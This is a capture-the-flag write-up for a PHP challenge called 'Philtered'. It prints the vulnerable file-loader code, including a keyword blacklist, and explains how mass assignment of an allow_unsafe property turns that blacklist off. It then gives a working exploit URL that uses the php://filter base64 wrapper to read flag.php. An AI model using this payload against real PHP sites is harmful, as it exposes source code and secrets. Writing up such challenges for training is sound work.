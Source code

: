 Philtered
============

You're given a PHP-based website with a file loading mechanism. On the surface, it looks like it only serves safe static pages such as `aboutus.txt` and `our-values.txt`. But behind the scenes, there's a mass assignment vulnerability that allows you to override internal configuration defined in the Config class, as well as some sensitive paths like `allow_unsafe`

---

## Discovery

You are given access to the source code (`index.php`), or it’s deployed at a URL like:

Checking the code will show the following, (I have added comments to explain whats going on)

```php
// Simple Config class that seems to only hold 2 values
class Config {
    public $path = 'information.txt';
    public $data_folder = 'data/';
}

// A file loader class used to load files
class FileLoader {
    public $config; // This will be set to the config object
    public $allow_unsafe = false; // Not allowing unsafe which is used to determine if checks are performed against the user provided values.
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\']; // Can't use any of these words in the path

    public function __construct() {
        $this->config = new Config();
    }

    public function contains_blacklisted_term($value) {
        // If its not allow_unsdafe then confirmt hat the data is good.
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;    
                }
            }
        }
        return false;
    }

    // Allows config etc changes with arrays, kinda like what prototype pollution might do, but less "deep" in the tree
    public function assign_props($input) {
        foreach ($input as $key => $value) {
            if (is_array($value) && isset($this->$key)) {
                foreach ($value as $subKey => $subValue) {
                    if (property_exists($this->$key, $subKey)) {
                        // Checks if the properly exists, and if it does then checks if its all good before setting it to the value
                        if ($this->contains_blacklisted_term($subValue)) {
                            $subValue = 'philtered.txt';
                        }
                        $this->$key->$subKey = $subValue;
                    }
                }
            } else if (property_exists($this, $key)) {
                // The blacklisted term needs to be checked for the current Class as well
                if ($this->contains_blacklisted_term($value)) {
                    $value = 'philtered.txt';
                }
                $this->$key = $value;
            }
        }
    }

    public function load() {
        $path = $this->config->path;
        if (!$this->allow_unsafe) {
            $path = $this->config->data_folder . $path;
        }
        return @file_get_contents($path);
    }
}
```

---

## Exploiting


There is a flag.php file, but does not contain HTML that will be rendered out on the page, instead it just contains a variable definition.

Checking the code, there are some interesting bits of code:

```php
$loader->assign_props($_GET); // Sets props, kinda like assigning a bunch of values for classes 
```

Allows you to override any public property in the `FileLoader` or nested `Config` class.

Checking the code, there is a blacklist for dangerous words that we will need to read the flag.php file:

```php
['php', 'filter', 'flag', '..', 'etc', '/', '\']
```

However, this is only applied if `allow_unsafe` is false.

The class has this:

```php
public $allow_unsafe = false;
```

If you override this via the mass assignment vuln and set `allow_unsafe=1`, the blacklist logic is entirely disabled.

Once the blacklist is disabled, you can load PHP stream wrappers, especially:

```php
php://filter/convert.base64-encode/resource=...
```

Which base64-encodes file contents.


## Exploit

Since the flag is in `flag.php`, it can be just encoded and printed:

```
http://localhost/index.php?allow_unsafe=1&config[data_folder]=php://filter/convert.base64-encode/resource=&config[path]=flag.php
```

This sets:

- `allow_unsafe = 1` — disables blacklist
- `data_folder = php://filter/convert.base64-encode/resource=`
- `path = flag.php`

So the final read is:

```php
file_get_contents('php://filter/convert.base64-encode/resource=flag.php');
```

Which returns the base64-encoded contents of `flag.php`.

The flag can then be base64 decoded.
